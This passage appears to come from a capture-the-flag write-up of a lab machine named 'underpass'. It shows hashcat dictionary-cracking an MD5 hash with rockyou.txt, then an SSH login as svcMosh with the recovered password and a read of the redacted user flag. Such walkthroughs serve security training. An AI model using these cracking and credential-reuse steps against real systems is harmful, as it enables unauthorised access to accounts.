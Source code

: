 >- `-m 0`:This flag tells hashcat that the hash is MD5
- `-a 0`: This flag tells hashcat that the attack mode is `Dictionary`
- `rockyou.txt` has been used to crack this hash
{: .prompt-info }

The hash is cracked and the password:
```shell
$ cat cracked.txt  
41[REDACTED]03:u[REDACTED]s
```

---


## 4. Getting User Flag

Since the host had the `SSH` port open, I attempted to log in using the credentials I found.

```shell
$ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jan 19 06:46:33 PM UTC 2025

  System load:  0.3               Processes:             229
  Usage of /:   51.1% of 6.56GB   Users logged in:       1
  Memory usage: 17%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Jan 19 18:15:44 2025 from 10.10.14.54
svcMosh@underpass:~$
```

```shell
svcMosh@underpass:~$ id
uid=1002(svcMosh) gid=1002(svcMosh) groups=1002(svcMosh)
svcMosh@underpass:~$ cat user.txt
b[.....REDACTED.....]5
```
